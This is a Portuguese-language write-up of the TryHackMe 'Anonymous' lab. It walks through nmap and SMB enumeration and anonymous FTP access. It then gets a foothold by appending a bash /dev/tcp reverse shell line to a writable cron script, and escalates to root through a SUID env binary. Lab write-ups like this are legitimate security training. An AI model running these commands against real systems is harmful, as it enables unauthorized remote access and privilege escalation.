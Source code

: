 ```yaml
---
title: THM - Anonymous
author: guialvesf
date: 2022-03-24 01:00:00 -0300
categories: [tryhackme, writeup]
tags: [tryhackme, writeup]
image: "/img/thm/anonymous/anonymous.png"
alt: "tryhackme"
---
```


<p align="center" width="100%">
    <img src="/img/thm/anonymous/anonymous.png"> 
</p>
<hr>

# Questões
* Enumerate the machine.  How many ports are open?
* What service is running on port 21?
* What service is running on ports 139 and 445?
* There's a share on the user's computer.  What's it called?
<br>

Temos quatro questões antes de pegar as flags de User e Root, então vamos começar enumerando a máquina para responder a primeira.

[Anonymous room](https://tryhackme.com/room/anonymous)

# Enumeration

Começando com o scan padrão do Nmap (que eu uso geralmente) `nmap -sC -sV -oA nmap -v $IP`.
* sC - Default nmap scripts
* sV - Open ports services/version
* oA - Save output to 'nmap' file
* v  - Verbose mode

Isso já foi o suficiente para responder as três primeiras questões.

![nmap](/img/thm/anonymous/nmap.png)


Para a quarta questão precisaremos executar outro scan com o Nmap, e como podemos ver há um Samba sendo executado no sistema então precisaremos enumerá-lo. 
`nmap --script smb-enum-shares.nse -p 445,139 -v -oA smb $IP`

![smb](/img/thm/anonymous/smbNmap.png)

Pronto, além da quarta questão respondida podemos acessar esse samba.
`smbclient \\\\$IP\\pics`

![smbclient](/img/thm/anonymous/smbclient.png)

Nada de interessante aqui, porém o servidor FTP está acessível para login anônimo

![ftp](/img/thm/anonymous/ftpFiles.png)

E aqui temos 3 arquivos:
* clean.sh
* removed_files.log
* to_do.txt

Olhando o arquivo de log, presumo que o script `clean.sh` está sendo executado a cada X minutos, então podemos ler o código fonte para ver o que está acontecendo.

![cleansh](/img/thm/anonymous/cleanSh.png)

Tendo a permissão de escrita no arquivo podemos enviar uma linha de código que irá executar o bash, que nos enviará uma conexão 
`bash -c 'exec bash -i &>/dev/tcp/$IP/$PORT <&1'`

![shell](/img/thm/anonymous/shell.png)

Agora precisamos enviar a saída para dentro do arquivo `clean.sh` usando o `append`

![append](/img/thm/anonymous/append.png)

Usando o netcat preciso apenas esperar a conexão ser estabelecida.

![user](/img/thm/anonymous/user.png)

Flag de usuário encontrada, então vamos para a escalação de privilégios. Para fazer isso usei o linPEAS e na saída vi que posso preciso apenas executar um comando. `/usr/bin/env /bin/sh -p`

![root](/img/thm/anonymous/root.png)
